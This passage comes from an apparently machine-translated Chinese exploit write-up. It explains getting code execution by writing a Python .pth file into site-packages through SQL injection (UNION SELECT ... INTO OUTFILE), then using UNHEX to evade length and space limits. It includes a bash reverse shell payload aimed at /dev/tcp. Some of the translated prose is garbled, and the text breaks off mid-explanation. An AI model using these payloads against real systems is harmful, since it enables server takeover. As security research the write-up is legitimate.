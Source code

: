 ```
user@host:~$ echo '/tmp' > ~/.local/lib/python3.10/site-packages/foo.pth
```

  
  
长话短说：如果您可以写入该目录并删除带有.pth扩展名的文件，Python 将会帮您完成剩下的工作。  
  
具体来说，如果该文件中的任何行.pth以有效的 Python 代码开头import[SPACE]或import[TAB]后跟有效的 Python 代码，site.py则解析器（每次 Python 进程启动时执行）会说“啊，是的，我应该运行这行代码”。  
  
如果您想深入了解这一点，我们再次强烈建议您阅读 SonarSource Research 的解释——他们比大多数人更好地涵盖了这一原语。  
  
所以，计划很简单：  
1. 将.pth包含 Python 代码的文件写入目录中site-packages，  
  
1. 扳机/cgi-bin/ml-draw.py。  
  
1. Apache 将启动/bin/python、site.py运行，并且我们的.pth文件将被拾取并执行——无需可执行位。  
  
完美的。  
  
但计划终究只是计划，我们真的能实现吗？  
  
我们一开始很天真地尝试了以下查询：  
  

```
'/**/or/**/1=1/**/UNION/**/SELECT/**/'import os;os.system(\\'ls\\')'/**/into/**/outfile/**/'/var/log/lib/python3.10/site-packages/trigger.pth
```

  
  
这个想法很简单：import os;os.system('ls')写入/var/log/lib/python3.10/site-packages/trigger.pth。  
  
但当然，一些问题很快就浮现出来：  
- 我们的有效载荷包含一个空格 - 正如我们已经确定的，它打破了调用%128s中的约束sscanf。  
  
- 更糟糕的是，总标题值现在完全超过了 128 个字符的限制。  
  
好的——如果我们将路径缩短为类似这样的路径会怎么样/var/log/lib/python3.10/site-packages/a.pth？  
  
这有一点帮助...但我们仍然被困在空间里import os。  
  
为了解决这个问题，我们可以求助于 MySQL 工具箱中的一个老工具——UNHEX()函数。  
  

```
UNHEX('41414141') --> AAAA
```

  
  
所以我们只需对有效载荷进行十六进制编码并将其写入文件？  
  
如果生活真的那么简单就好了。  
  
假设我们尝试一个反向shell有效载荷——像这样：  
  

```
import os; os.system('bash -c &#34;/bin/bash -i >& /dev/tcp/{args.lhost}/{args.lport} 0>&1&#34;')
```

  
  
我们最终会得到这样的结果：  
  